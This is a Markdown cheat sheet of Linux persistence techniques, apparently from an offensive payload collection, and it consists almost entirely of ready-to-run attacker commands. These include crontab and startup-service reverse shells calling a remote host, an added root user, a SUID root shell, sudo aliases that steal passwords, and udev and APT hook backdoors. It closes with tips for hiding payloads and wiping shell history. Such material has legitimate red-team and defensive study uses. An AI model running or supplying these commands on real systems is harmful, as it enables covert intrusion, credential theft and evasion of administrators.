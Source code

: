 # Linux - Persistence

## Summary

* [Basic reverse shell](#basic-reverse-shell)
* [Add a root user](#add-a-root-user)
* [Suid Binary](#suid-binary)
* [Crontab - Reverse shell](#crontab-reverse-shell)
* [Backdooring a user's bash_rc](#backdooring-an-users-bash-rc)
* [Backdooring a startup service](#backdoor-a-startup-service)
* [Backdooring a user startup file](#backdooring-an-user-startup-file)
* [Backdooring a driver](#backdooring-a-driver)
* [Backdooring the APT](#backdooring-the-apt)
* [Backdooring the SSH](#backdooring-the-ssh)
* [Tips](#tips)
* [References](#references)

## Basic reverse shell

```bash
ncat --udp -lvp 4242
ncat --sctp -lvp 4242
ncat --tcp -lvp 4242
```

## Add a root user

```powershell
sudo useradd -ou 0 -g 0 john
sudo passwd john
echo "linuxpassword" | passwd --stdin john
```

## Suid Binary

```powershell
TMPDIR2="/var/tmp"
echo 'int main(void){setresuid(0, 0, 0);system("/bin/sh");}' > $TMPDIR2/croissant.c
gcc $TMPDIR2/croissant.c -o $TMPDIR2/croissant 2>/dev/null
rm $TMPDIR2/croissant.c
chown root:root $TMPDIR2/croissant
chmod 4777 $TMPDIR2/croissant
```

## Crontab - Reverse shell

```bash
(crontab -l ; echo "@reboot sleep 200 && ncat 192.168.1.2 4242 -e /bin/bash")|crontab 2> /dev/null
```

## Backdooring a user's bash_rc

(FR/EN Version)

```bash
TMPNAME2=".systemd-private-b21245afee3b3274d4b2e2-systemd-timesyncd.service-IgCBE0"
cat << EOF > /tmp/$TMPNAME2
  alias sudo='locale=$(locale | grep LANG | cut -d= -f2 | cut -d_ -f1);if [ \$locale  = "en" ]; then echo -n "[sudo] password for \$USER: ";fi;if [ \$locale  = "fr" ]; then echo -n "[sudo] Mot de passe de \$USER: ";fi;read -s pwd;echo; unalias sudo; echo "\$pwd" | /usr/bin/sudo -S nohup nc -lvp 1234 -e /bin/bash > /dev/null && /usr/bin/sudo -S '
EOF
if [ -f ~/.bashrc ]; then
    cat /tmp/$TMPNAME2 >> ~/.bashrc
fi
if [ -f ~/.zshrc ]; then
    cat /tmp/$TMPNAME2 >> ~/.zshrc
fi
rm /tmp/$TMPNAME2
```

or add the following line inside its .bashrc file.

```powershell
chmod u+x ~/.hidden/fakesudo
echo "alias sudo=~/.hidden/fakesudo" >> ~./bashrc
```

and create the `fakesudo` script.

```powershell
read -sp "[sudo] password for $USER: " sudopass
echo ""
sleep 2
echo "Sorry, try again."
echo $sudopass >> /tmp/pass.txt

/usr/bin/sudo $@
```

## Backdooring a startup service

```bash
RSHELL="ncat $LMTHD $LHOST $LPORT -e \"/bin/bash -c id;/bin/bash\" 2>/dev/null"
sed -i -e "4i \$RSHELL" /etc/network/if-up.d/upstart
```

## Backdooring a user startup file

Linux, write a file in  `~/.config/autostart/NAME_OF_FILE.desktop`

```powershell
In : ~/.config/autostart/*.desktop

[Desktop Entry]
Type=Application
Name=Welcome
Exec=/var/lib/gnome-welcome-tour
AutostartCondition=unless-exists ~/.cache/gnome-getting-started-docs/seen-getting-started-guide
OnlyShowIn=GNOME;
X-GNOME-Autostart-enabled=false
```

## Backdooring a driver

```bash
echo "ACTION==\"add\",ENV{DEVTYPE}==\"usb_device\",SUBSYSTEM==\"usb\",RUN+=\"$RSHELL\"" | tee /etc/udev/rules.d/71-vbox-kernel-drivers.rules > /dev/null
```

## Backdooring the APT

If you can create a file on the apt.conf.d directory with: `APT::Update::Pre-Invoke {"CMD"};`
Next time "apt-get update" is done, your CMD will be executed!

```bash
echo 'APT::Update::Pre-Invoke {"nohup ncat -lvp 1234 -e /bin/bash 2> /dev/null &"};' > /etc/apt/apt.conf.d/42backdoor
```

## Backdooring the SSH

Add an ssh key into the `~/.ssh` folder.

1. `ssh-keygen`
2. write the content of `~/.ssh/id_rsa.pub` into `~/.ssh/authorized_keys`
3. set the right permission, 700 for ~/.ssh and 600 for authorized_keys

## Tips

Hide the payload with ANSI chars, the following chars will clear the terminal when using cat to display the content of your payload.

```powershell
#[2J[2J[2J[2H[2A# Do not remove. Generated from /etc/issue.conf by configure.
```

Hide in plain sight using zero width spaces in filename.

```powershell
touch $(echo -n 'index\u200D.php') index.php
```

Clear the last line of the history.

```bash
history -d $(history | tail -2 | awk '{print $1}') 2> /dev/null
```

Clear history

```bash
[SPACE] ANY COMMAND
or
export HISTSIZE=0
export HISTFILESIZE=0
unset HISTFILE; CTRL-D
or
kill -9 $$
or
echo "" > ~/.bash_history
or
rm ~/.bash_history -rf
or
history -c
or
ln /dev/null ~/.bash_history -sf
```

The following directories are temporary and usually writeable

```bash
/var/tmp/
/tmp/
/dev/shm/
```

## References

* [@RandoriSec - https://twitter.com/RandoriSec/status/1036622487990284289](https://twitter.com/RandoriSec/status/1036622487990284289)
* [https://blogs.gnome.org/muelli/2009/06/g0t-r00t-pwning-a-machine/](https://blogs.gnome.org/muelli/2009/06/g0t-r00t-pwning-a-machine/)
* [http://turbochaos.blogspot.com/2013/09/linux-rootkits-101-1-of-3.html](http://turbochaos.blogspot.com/2013/09/linux-rootkits-101-1-of-3.html)
* [http://www.jakoblell.com/blog/2014/05/07/hacking-contest-rootkit/](http://www.jakoblell.com/blog/2014/05/07/hacking-contest-rootkit/)
* [Pouki from JDI](#no_source_code)
